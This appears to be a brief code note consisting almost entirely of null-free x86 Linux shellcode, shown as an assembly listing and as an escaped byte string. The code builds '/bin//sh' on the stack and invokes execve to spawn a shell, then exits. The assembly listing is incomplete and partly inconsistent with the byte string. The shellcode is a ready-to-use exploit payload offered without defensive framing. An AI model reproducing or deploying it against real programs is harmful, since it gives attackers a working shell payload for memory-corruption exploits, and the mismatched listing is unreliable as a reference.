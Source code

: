 ```
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x69
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x62
add    %eax,%ecx
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
shl    %eax,1
mov    %cl,0x2f
add    %eax,%ecx
push   %eax
nop
xor    %eax,%eax
mov    %ebx,%esp
mov    %ecx,%eax
mov    %edx,%eax
mov    %al,0xb
int    0x80
xor    %eax,%eax
inc    %eax
nop
int    0x80
```

ran this in [online assembler](https://defuse.ca/online-x86-assembler.htm)

`\x31\xC0\x31\xC9\x50\x90\x31\xC0\xB1\x68\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x73\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\xB1\x6E\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x69\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x62\x01\xC8\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xD1\xE0\xB1\x2F\x01\xC8\x50\x90\x31\xC0\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\x31\xC0\x40\x90\xCD\x80`
